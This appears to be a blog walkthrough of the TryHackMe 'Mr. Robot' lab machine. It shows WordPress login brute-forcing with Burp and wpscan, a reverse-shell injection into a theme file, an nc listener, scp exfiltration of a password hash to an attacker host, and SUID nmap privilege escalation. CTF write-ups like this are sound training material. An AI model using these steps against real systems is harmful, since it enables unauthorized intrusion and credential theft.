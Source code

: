 ```yaml
---
layout: post
title: "TryHackMe: Mr. Robot"
image: /assets/thumbnails/mr-robot-thumbnail.png
---
```


> This is the walkthrough of the machine Mr. Robot on TryHackMe. It is an easy challenge that involves some clever enumeration, vulnerability and exploit research and some clever Linux privilege escalation technique. Definitely a fun box for beginners.

---

## Enumeration

Starting the VM, we are greeted by a login prompt, asking for credentials. We do not have any yet. A quick nmap scan reveals the following:

![nmap](/assets/img/projects-img/mr-robot-nmap.PNG){: class="center-image"}

Navigate to the web app hosted on port 80. There is a whole presentation there. However, clicking around doesn't seem to be of any use to us. Since the main page does not give too much information, let's check for interesting subdirectories with gobuster.

```bash
    gobuster dir -u http://69.169.69.111/ --wordlist /usr/share/dirb/wordlists/common.txt > gobuster1
```

Interesting results here. Right away, we see that there is a robots.txt file. This file may hold secrets that the target wishes to keep away from crawlers. Its contents reveal the following:

![robotstxt](/assets/img/projects-img/mr-robot-robotstxt.PNG){: class="center-image"}

Navigating to <IP>/key-1-of-3.txt gives us the first key.

Furthermore, we see that the server contains a file called fsocity.dic. Navigate to `http://<target IP>/fsocity.dic` to download it. We will come back to it in a bit.

The output from Gobuster also contains some typical wordpress directories such as `wp-admin` and `wp-config`. It seems that the hosted application is a WordPress blog. Navigating to `<IP>/image` reveals the blog and navigating to `<IP>/wp-login.php` reveals the login page.

## Attacking WordPress

The key to the next step is using the list `fsocity.dic` to somehow log into the blog. However, we do not know whether the list contains usernames, passwords, or both. Luckily, WordPress will show a custom error message if we try to log in as a user with the wrong password, indicating that the user exists:

![wordpresslogin](/assets/img/projects-img/mr-robot-wordpress-login.png){: class="center-image"}

Let's use `burpsuite` to brute force the username. Start burpsuite and capture the login request with Proxy. Then send it over to Intruder. Set only the password ("pwd") parameter's value as position.

![burpsuitepayload](/assets/img/projects-img/mr-robot-burpsuite-payload.png){: class="center-image"}

Then navigate to the Intruder's "Payloads" tab and load fsocity.dic as the payload. Start the attack. We can filter by response length since we know that the response will be different than the rest if we get a hit on the correct username. You should get this:

![burpsuiteresults](/assets/img/projects-img/mr-robot-burpsuite-results.png){: class="center-image"}

Now we have to crack the password. This part took quite some time since I am using a VM so my cracking speed is very low. I knew the password had to be either in `fsocity.dic` or in the `rockyou.txt` leaked database password list. So I gave both an hour or two but without any luck. Searching around in the `fsocity.dic` list revealed a lot of duplicate words (search for "user", for example). Therefore, I decided to trim the `foscity.dic` by sorting and removing duplicate using the command below:

```bash
    sort fsocity.dic | uniq > fsocity_clean.dic
```

Turns out this was the key to cracking the password. I got a hit on the 5630th line. As for the exact tool - I used `wpscan`. However, it is also possible with `hydra` and even with `burpsuite` but the latter will take quite some time.

```bash
    wpscan --url http://69.169.69.111/wp-login -U "Elliot" -P fsocity_clean.dic
```

You should get the following output:

![burpsuiteresults](/assets/img/projects-img/mr-robot-wpscan-hit.png){: class="center-image"}

Now that we can log in, its time to look for an exploit that will help us establish a system-level communication channel/shell with the target. To get a better understanding of the tech stack, I personally like using `whatweb` (certainly use -v for verbose output):

```bash
    whatweb http://69.169.69.111/Image/ -v
```

The output shows WordPress version 4.3.1 and PHP version 5.5.29. 

## Exploit

Once we have access to the administrator console, we need to find a vulnerability in order to land a shell. From previous experience I knew that editing the themes could hide a possible code injection vulnerability so I went with that. However, there are most likely other ways to land the shell. Check [this awesome article](https://www.hackingarticles.in/wordpress-reverse-shell/){:target="_blank"} and experiment with different techniques. Usually, WordPress and especially older versions offer a pretty large attack surface.

I navigated to `http://<target IP>/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` and replaced the original code with the reverse shell code. I went to [revshells.com](https://www.revshells.com/){:target="_blank"} and used the PHP reverse shell by PentestMonkey. 

Now that the malicious code is injected onto the target server, we just need to get it to run. In order to that we can navigate to `http://<target IP>/wordpress/wp-content/themes/twentyfifteen/404.php` via the browser. I also got it to run by just going to `http://<target IP>/themes` because it again loads the themes code, thus executing the malicious code and providing us with a reverse shell.

Obviously, you need to be listening on the attacker machine in order to catch the shell using the command below.

```bash
    nc -lnvp 1234
```

Once you catch the reverse shell, you can use the command below to upgrade to bash.  

```bash
    python3 -c 'import pty;pty.spawn("/bin/bash");'
```

## Privilege escalation part 1

The reverse shell lands us in the daemon account. This means that the WordPress blog/service is run in the context of this account on the victim server. Let's navigate to the \home directory. We see there exists a user robot. In robot's home directory we find key-2-of-3.txt (which we do not have permission to read) and a MD5 hash of the user's password (called password.raw-md5). MD5 is an outdated encryption algorithm and is insecure. We need to transfer the file back to our attacker machine and crack it using a tool like `hashcat` or `john`. 

I couldn't transfer the file using python3's `http.server` module so I decided to use an ssh server. The order of the commands is given below. 

On the attacker machine:

```bash
    # enable ssh
    sudo systemctl enable ssh
    # start the ssh server
    sudo systemctl start ssh
    # check whether server is running
    netstat -antp
```

Then on the victim machine:

```bash
    # copy file over ssh
    scp password.raw-md5 kali@<attacker IP>:~/
```

Once you have the file on your attacker host, you can use `john` and rockyou.txt to crack it. Extract only the hash from password.raw-md5 into another file and crack it.

```bash
    john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt crackit
```

Then we can use it to log in as robot and also get the second key.

![key2](/assets/img/projects-img/mr-robot-key-2.webp){: class="center-image"}

## Privilege escalation part 2

Now that we have access to the user robot we need to escalate our privileges again and get root access. This was all about a careful enumeration of the filesystem and permissions. Right away, we can check that robot is not a member of the sudoers group, hence sudo will fail. The next step is to check for SUID binaries. 

> A SUID binary is a program that runs with the permissions of its owner instead of the permissions of the user who executes it.

That can be done with the following command:

```bash
    find / -perm -4000 2>/dev/null 
```

Does anything stand out? Carefully enumerate the list and investigate every curious service for possible vulnerabilities.
The service in question is **nmap**. Lore-wise it makes sense since this is supposed to be Mr. Robot's machine and he certainly needs nmap in his day-to-day. Nmap, however, can be used to run commands and execute scripts. I did not explore the script option since I found that, luckliy, nmap has an interactive mode which we can use.

![nmapinteractive](/assets/img/projects-img/mr-robot-nmap-interactive.webp){: class="center-image"}

Navigate to the key.

![key3](/assets/img/projects-img/mr-robot-key-3.webp ){: class="center-image"}

Some awesome resources that can help you during this stage of a CTF - [GTFOBins](https://gtfobins.github.io/){:target="_blank"} and [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation){:target="_blank"}.


# Have fun!

